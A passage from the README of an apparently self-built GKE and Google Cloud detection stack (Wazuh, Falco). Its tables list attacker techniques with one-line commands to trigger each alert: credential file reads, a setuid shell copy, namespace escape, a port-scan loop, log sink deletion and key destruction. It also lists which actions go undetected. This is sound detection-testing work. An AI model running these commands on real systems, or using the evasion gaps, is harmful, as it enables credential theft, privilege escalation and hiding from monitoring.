| Kernel module | `insmod`, `modprobe` from a privileged pod | Linux Kernel Module Injection Detected | critical |
| Credential theft from files | `cat ~/.config/gcloud/credentials.db`, `~/.kube/config`, `~/.ssh/id_*` | Credential file read in container | high |
| Credential search | `grep -r "BEGIN PRIVATE"`, `find / -name id_rsa` | Search Private Keys or Passwords | high |
| Setuid backdoor | `cp /bin/sh /tmp/x && chmod u+s /tmp/x` | Setuid or setgid bit set in container | high |
| Escape tooling | `mount`, `unshare -r`, `nsenter -t 1 -m` | Mount or namespace tool in container | critical |
| cgroup escape | write a `release_agent` file | Detect release_agent File Container Escapes | critical |
| Lateral movement | `ssh`, `scp` from a pod | SSH or remote copy client in container | high |
| Secrets in process environments | `cat /proc/1/environ` | Environment of another process read in container | high |
| Backdoor in a shell profile or Python | `echo … >> ~/.bashrc`, write `site-packages/x.pth` | Modify Shell Configuration File / Python startup hook modified in container | high |
| Known exploits | `pkexec` with no arguments, `sudo -s '…\'`, `GLIBC_TUNABLES=…` | Polkit … (CVE-2021-4034) / Sudo Potential Privilege Escalation / Potential Local Privilege Escalation via Environment Variables Misuse | critical / medium |
| Miner pool | a command line with `stratum+tcp://` | Detect crypto miners using the Stratum protocol | critical |
| Web shell | a web server process (`nginx`, `httpd`, …) running `sh`, or `/dev/tcp/` | Web Server Spawned Shell / Reverse Shell from Web Server | critical |
| Node disk read | `head -c 512 /dev/sda` from a privileged pod | Privileged Container Device Access | critical |
| Host files through a mount | `cat /host/etc/os-release` from a pod with `/` mounted at `/host` | Container Access to Host Sensitive Paths | high |
| Files hidden in /dev | `touch /dev/x` | Create files below dev | high |
| Data copied out | `kubectl cp <pod>:/data/file .` | Exfiltrating Artifacts via Kubernetes Control Plane | high |
| Tool download | `wget`, `curl -o` in a container | Launch Ingress Remote File Copy Tools in Container | medium |

### Network (GKE network policy log, `gke-network-policy`)

| Technique | How to try it | Alert | Level |
|---|---|---|---|
| Port scan of the SIEM, GitOps or runtime tooling | from a pod in another namespace, `for p in 22 80 443 9200 55000 …; do nc -z -w1 <pod IP> $p; done` against pods in `wazuh`, `argocd` or `falco` | Kubernetes port scan (monitor) | critical |
| Lateral movement into a security namespace | one connection from another namespace to a port the NetworkPolicies of `wazuh`, `argocd` or `falco` do not open | GKE connection denied into a security namespace | medium |

### Google Cloud (audit logs, `gcp-security` and the standard `gcp` rules)

| Technique | Try it | Rule | Level |
|---|---|---|---|
| Service account key | `gcloud iam service-accounts keys create` / `keys upload` | GCP service account key created | critical |
| Privilege escalation | `gcloud projects add-iam-policy-binding … --role roles/editor` | GCP project IAM policy changed | high |
| Impersonation path | grant `roles/iam.serviceAccountTokenCreator` on a service account | GCP service account IAM policy changed | high |
| Impersonation | `gcloud auth print-access-token --impersonate-service-account` | GCP service account impersonated | high |
| Port opened to the internet | `gcloud compute firewall-rules create … --source-ranges 0.0.0.0/0` | GCP firewall rule created or changed | high |
| Bucket made public | `gcloud storage buckets add-iam-policy-binding … --member allUsers` | GCP storage bucket IAM policy changed | high |
| Logs redirected or cut off | `gcloud logging sinks create` / `update` / `delete` | GCP log sink created, changed or deleted | high |
| Logs dropped before storage | a log exclusion (`POST …/v2/projects/<p>/exclusions`), `gcloud logging buckets update` | GCP log exclusion or log bucket changed | critical |
| Secret read | `gcloud secrets versions access` by anyone but External Secrets | GCP secret read outside External Secrets | high |
| Encryption key disabled or destroyed | `gcloud kms keys versions disable` / `destroy` | GCP KMS key version disabled or destroyed | critical |
| Encryption key access | `gcloud kms keys add-iam-policy-binding` | GCP KMS key IAM policy changed | high |
| SSH keys on every VM | `gcloud compute project-info add-metadata --metadata ssh-keys=…` | GCP instance or project metadata changed | high |
| Long-lived storage credential | `gcloud storage hmac create` | GCP storage HMAC key created | critical |
| SIEM log path diverted or cut | create, change or delete a Pub/Sub topic or subscription | GCP Pub/Sub topic or subscription changed | high |
| Services switched on or off | `gcloud services enable` / `disable` | GCP API enabled or disabled | high |
| New identity or role | `gcloud iam service-accounts create`, `gcloud iam roles create` | GCP custom role or service account created | high |
| Outside identity as a service account | `gcloud iam workload-identity-pools create`, `providers create-oidc` | GCP workload identity federation changed | critical |
| Cluster defences changed | `gcloud container clusters update` (endpoint access, authorized networks, logging, network policy, legacy ABAC) or `delete` | GKE cluster configuration changed | critical |
| Capacity for crypto mining | `gcloud compute instances create`, `gcloud container node-pools create` / `resize` | GCP compute capacity added | high |
| Traffic redirected or networks bridged | `gcloud compute routes create`, `routers create`, `networks peerings create`, `subnets update` | GCP VPC routing or peering changed | high |
| API key | create or change a key on APIs & Services → Credentials, `gcloud services api-keys create` / `update` | GCP API key created or changed | critical |
| API key stolen | Show key in the console, `gcloud services api-keys get-key-string` | GCP API key string read | high |
| OAuth app | create an OAuth client ID or consent screen on the Credentials page | GCP OAuth client created or changed | high |
| SSH through OS Login | `gcloud compute os-login ssh-keys add` | GCP OS Login SSH key added | high |
| Guardrail removed | change or delete an organization policy, or an IAM deny policy | GCP organization policy changed / GCP IAM deny policy changed | critical |
| Alarms silenced | delete a Cloud Monitoring alert policy or notification channel, change the essential contacts | GCP alerting or security contacts tampered | high |
| Disk copied out | `gcloud compute snapshots create`, `images create`, `images add-iam-policy-binding` | GCP disk snapshot or image created or shared | high |
| Secret access granted | `gcloud secrets add-iam-policy-binding` | GCP secret IAM policy changed | high |
| Secret replaced or destroyed | `gcloud secrets versions add` / `disable` / `destroy`, `secrets delete` | GCP secret replaced, disabled or destroyed | high |
| Image repository opened | `gcloud artifacts repositories add-iam-policy-binding` | GCP Artifact Registry IAM policy changed | high |
| Data shared | change the access or IAM policy of a BigQuery dataset or table | GCP BigQuery access changed | high |
| VM identity swapped | `gcloud compute instances set-service-account` | GCP VM service account changed | high |
| Code run outside the cluster | deploy Cloud Run, Cloud Functions, Cloud Build or a Cloud Scheduler job | GCP serverless code or build deployed | high |
| Name redirected | `gcloud dns managed-zones create`, `record-sets create` / `delete` | GCP DNS changed | high |

### Across Google Cloud and Kubernetes (monitor)

| Technique | How to try it | Alert | Level |
|---|---|---|---|
| Probing stolen credentials | as a principal without roles, `gcloud compute instances list`, `secrets list`, `storage buckets list`, `iam service-accounts list`; or from a pod, `kubectl get secrets,pods,nodes -A` with its service account | Permission enumeration (monitor) | critical |

### Not detected

- Service account TokenRequests (`kubectl create token`): GKE writes them to neither the Admin Activity nor
  the Data Access log.
- Kubernetes reads other than secrets, impersonated ones included: the Log Router keeps only secret reads,
  `nodes/proxy` and TokenRequests from the Kubernetes Data Access log and drops the rest.
- An untrusted image in a workload that never starts (zero replicas, a suspended CronJob): Falco checks the
  image when a container starts, and no rule reads the image of an API request.
- Port scans of pods that no NetworkPolicy isolates (only `wazuh`, `argocd` and `falco` have default-deny
  policies), of node IPs and of hosts outside the cluster: only connections a NetworkPolicy denies are logged.
- Events deleted one by one (`kubectl delete events --all`) or through the core API collection: GKE audits
  only the `events.k8s.io` collection delete.
- Events that arrive while a detector is rebuilt or while the managers reload the custom space, both of
  which happen only when the detection content in Git changes, can be skipped.

## Repository layout

```text
terraform/        # Google Cloud: APIs, KMS, VPC, NAT, GKE, Artifact Registry, archive bucket, Pub/Sub,
                  # log sinks, Data Access audit logs, Secret Manager, Argo CD bootstrap (see terraform/README.md)
bootstrap/        # root Application applied by Terraform
appsets/          # AppProject and the controllers and configs ApplicationSets
infrastructure/
  controllers/    # Helm charts: cert-manager, external-secrets, falco
  configs/        # Kustomize: namespaces, secret store, CMEK StorageClasses, wazuh
images/           # GCP collector image, built and pushed with make -C images release
```

Values that contain the project ID (registry, subscription, KMS key) never enter Git: Terraform writes them
as annotations of the Argo CD cluster secret and the ApplicationSets inject them.

## Deploy

```bash
cp .env.example .env                   # PROJECT_ID and GITOPS_REPO_URL
make -C terraform apply-all            # Google Cloud, GKE, Argo CD, then waits for every Application
make -C images release                 # collector image to Artifact Registry
read -rs URL && printf '%s' "$URL" | gcloud secrets versions add staging-siem-slack-webhook --data-file=-

kubectl -n wazuh port-forward svc/wazuh-dashboard 8443:443   # https://localhost:8443, user admin
kubectl -n wazuh get secret wazuh-credentials -o jsonpath='{.data.indexer\.env}' | base64 -d | grep ADMIN

make -C terraform teardown             # everything except APIs, KMS, Secret Manager and the log archive bucket
```

The log archive bucket and the Pub/Sub topic grant write access to the project's Cloud Logging service
agent in their own workspaces, not in `log-router`. Destroying the sinks therefore leaves that access in
place, so log entries Cloud Logging still holds for the sinks are delivered instead of raising sink errors.

## Versions

Wazuh **5.0.0-rc2**, the latest 5.x release, pinned in
[`infrastructure/configs/wazuh/base/kustomization.yaml`](infrastructure/configs/wazuh/base/kustomization.yaml)
and in the collector `Dockerfile`; moving to 5.0.0 GA is a tag change in both. GKE 1.35, Argo CD 3.5,
cert-manager 1.21, External Secrets 2.15, Falco 0.45 (chart 9.2), Terraform 1.15.
